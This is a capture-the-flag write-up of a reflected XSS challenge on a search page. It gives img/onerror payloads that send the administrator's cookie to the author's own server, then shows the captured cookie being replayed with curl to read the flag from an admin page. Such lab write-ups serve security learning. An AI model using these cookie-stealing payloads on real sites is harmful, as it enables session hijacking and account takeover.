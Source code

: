# Info

The challenge brings us back to a site.
Let's try a little ...
Ok, when we do a search, the search is rewritten in the html code. So let's try an xss payload just to try it out.

OK! It is therefore an xss flaw.

Let's exploit.

The objective is to redirect the administrator, (who will click on our link that we will send him in the support section), to our own server using an html request and who will give us his cookie. Once his cookie has been recovered, we can pretend to be him and then connect to the admin area (see the cURL part) 

(Below some tests until my good one) 


# Payload XSS for the PoC:
https://searchme.0xhorizon.eu/?search=%22%3Cimg%20src=x%20onerror=%27alert(1)%27%3E%22


# Payload to redirect:
### Doesn't works --> probably cause of " which break the payload
`https://searchme.0xhorizon.eu/?search="<img src=x onerror='document.location="http://ip_of_my_aws_server:8888?hello="+document.cookie'>"`

`https://searchme.0xhorizon.eu/?search="<img src=x onerror='window.location="http://ip_of_my_aws_server:8888?hello="+document.cookie'>"`

### trying to correct it, BUT we can't add something
`https://searchme.0xhorizon.eu/?search="<img src=x onerror='alert(document.location="http://ip_of_my_aws_server:8888?hello="+document.cookie)'>"`

# Good Payload

In fact, we just needed to .concat instead of adding.

`https://searchme.0xhorizon.eu/?search="<img src=x onerror='alert(document.location="http://ip_of_my_aws_server:8888?hello=".concat(document.cookie))'>"`

# Response

151.80.56.168 - - [04/Nov/2021 21:00:43] "GET /?hello=login=999eb32cea9627e00939b81766f00694 HTTP/1.1" 200 -

So we get the cookie : login=999eb32cea9627e00939b81766f00694

# Let's play cURL

`curl -H "Cookie: login=999eb32cea9627e00939b81766f00694" https://searchme.0xhorizon.eu/admin.php | grep 'horiz0nx'`    

    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
    Dload  Upload   Total   Spent    Left  Speed
    100  2045  100  2045    0     0  30984      0 --:--:-- --:--:-- --:--:-- 30984
         
    <p class="card-text">My coffee machine: horiz0nx{C00ffee__m@ch1ne__1s__y0ur_n0w}</p>
 
## Gotcha !

horiz0nx{C00ffee__m@ch1ne__1s__y0ur_n0w}
